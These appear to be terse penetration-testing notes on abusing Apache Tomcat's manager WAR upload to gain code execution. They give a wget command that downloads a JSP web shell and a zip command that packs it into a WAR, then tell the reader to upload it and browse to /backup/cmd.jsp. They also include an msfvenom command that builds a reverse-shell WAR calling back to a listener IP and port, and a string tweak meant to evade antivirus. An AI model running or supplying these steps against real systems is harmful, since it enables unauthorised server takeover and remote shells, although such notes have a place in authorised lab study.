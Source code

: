 allows us to instantly deploy new applications by uploading WAR files 


https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp

```shell-session
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
```

```shell-session
zip -r backup.war cmd.jsp 
```

and then upload the war file

go to /backup/cmd.jsp

can also msfvenom
```shell-session
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.15.25 LPORT=4444 -f war > backup.war
```
reverse shell on localhost

can also use multi/http/tomcat_mgr_upload

can also try https://github.com/SecurityRiskAdvisors/cmd.jsp

we can also try to bypass av by changing
```java
FileOutputStream(f);stream.write(m);o="Uploaded:
```

to
```java
FileOutputStream(f);stream.write(m);o="uPlOaDeD:
```